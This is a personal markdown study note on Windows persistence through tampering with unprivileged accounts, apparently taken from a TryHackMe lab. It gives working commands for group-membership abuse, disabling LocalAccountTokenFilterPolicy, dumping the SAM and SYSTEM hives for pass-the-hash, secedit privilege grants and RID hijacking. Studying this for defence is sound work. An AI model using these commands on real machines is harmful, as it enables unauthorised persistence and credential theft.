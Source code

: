 # Windows Persistence - Tampering with Unprivileged Accounts

## Assigning Group Memebership

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrative privileges when logging in remotely with a limited access token with no administrative privileges, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
For reference see the official documentation regarding [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) and forcomplete token table [[SePrivilege-Token-Table]].

The Backup Operators group has the following:
-   **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place, see [[SeBackup-Privilege]]
-   **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

As this group we can assign the above privileges to any user regardless of group,
```powershell
secedit /export /cfg config.inf
# add username to the lines 
SeBackupPrivilege = *S-1-5...sid,<username>
SeRestorePrivilege = *S-1-5...sid,<username>
# convert .inf into .sdb, then load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# This user can log in via WinRM; you can instead adding user to Remote Management group 
# Change the Security Descriptor; requires GUI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# add user
```

## RID Hijacking
Changing some registry values to trick the operating systemlike you are the Administrator. Relateive ID (RID) is assign on user creation when that user logs in the LSASS create a access token based the RID matched from the SAM registery hive. This method will require ability to edit the registery. With [[Sysinternals-Psexec]]
```powershell 
PsExec64.exe -i -s regedit
# Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```



## References
[THM Windows Persistance Room](https://tryhackme.com/room/windowslocalpersistence)
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
